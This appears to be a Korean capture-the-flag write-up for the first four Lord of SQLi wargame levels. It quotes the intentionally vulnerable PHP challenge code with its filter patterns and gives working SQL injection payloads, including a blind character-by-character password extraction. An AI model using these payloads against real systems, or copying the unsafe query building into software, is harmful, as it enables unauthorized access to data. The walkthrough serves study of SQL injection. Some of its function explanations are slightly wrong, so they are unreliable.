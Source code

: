# GREMLIN

## code
```php
<?php
    include "./config.php";
    login_chk();
    dbconnect();
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit>         ("No Hack ~_~"); // do not try to attack another table, database!
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
    $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
    echo "<hr>query : <strong>{$query}</strong><hr><br>";
    $result = @mysql_fetch_array(mysql_query($query));
    if($result['id']) solve("gremlin");
    highlight_file(__FILE__);
?>
```
## solution
위에 코드를 보게 되면 GET방식으로 id와 pw를 받고 있으며 id만 참이되면 문제가 풀리기 때문에 url뒤에
```
    ?id='or 1=1%23
```
이런 코드를 입력하게 되면 id가 참이 아니더라도 1=1이 참이 되고 %23이라는 #을 사용해서 뒤에오는 query문을 주석 처리를 하게 되므로 query문이 참이되게 되어서 문제를 깨게 된다.

-----------------------

# COBOLT

## code
```php
<?php
  include "./config.php"; 
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

## solution
위 코드를 확인을 하면 id와 pw를 get방식으로 받고 있다. 그리고 id가 admin이면 문제를 해결 할 수 있게 되므로 url뒤에
```
?id=admin'%23
```
위와 같은 코드를 입력하게 되면 id에는 admin이 들어가고, %23으로 주석처리를 해주기 때문에 '를 달아주고 주석처리를 해주게되면 id='admin'이므로 문제가 풀린다.

-------------

# GOBLIN

## code
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

## solution
위 코드를 보게 되면 GET방식으로 no만 받고 있다. 그렇지만 id가 admin이여야 문제가 풀리게 되므로 url뒤에
```
?no=0 or 1=1 limit 1,1
```
위아 같은 코드를 입력하게 되면 no에는 0인 거짓값이 들어가지만 or 1=1로 참을 만든후 limit 1,1을 사용해서 db의 첫번째 줄에 있는 것을 꺼내왔다. 근데 마침 그 위치에 admin이 있어서 문제가 풀리게 되었다.

## limit
```mysql
limit a,b
```
는 a인덱스 부터 b개 만큼 출력을 하겠다는 것이다.

-----------------

# orc

## code 
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

## solution
위 코드를 보면 id는 admin으로 고정이 되어 있고 pw만 get방식으로 입력을 받고 있다. 그리고 코드를 보면 pw를 완전히 맞추어야 문제가 풀리는 것을 알 수 있다. 그래서 url뒤에
```
'or 1=1 and length(pw)=8#
```
이런 코드를 넣어 보게 되면 length라는 함수를 사용해서 pw의 길이를 알수 있게 된다. 그리고 이것이 참이였으므로 pw의 길이는 8자리라는 것을 알 수 있다. 다음으로 첫번째 자리의 값을 보려면
```
'or 1=1 and ascii(substr(pw,1,1))=50#
```
위와 같은 코드를 입력한다. substr에서 pw,1,1은 pw의 첫번째글자에서 한개라는 의미로 pw의 첫번째 자리를 뜻하다. 그럼 두번째 자리만 하려면
pw,2,1이와 같은 방법으로 모든 자리를 구해보면
ascii값으로는 50 57 53 100 53 56 52 52이므로
답은 pw=295d5844이다.

## length
length함수는 인자로 주어진 문자열의 길이를 구하는 것이다.

## ascii
문자열의 문자 값을 EBCDIC에서 ASCII 형식으로 변환 해주는 것이다.

## substr
```
substr(문자열, 시작index, 길이)
```
문자열에서 시작index부터 길이 만큼 잘라준다
```
ex) substr("Hello world!", 5, 5)
```
이러면 world가 추력이 된다.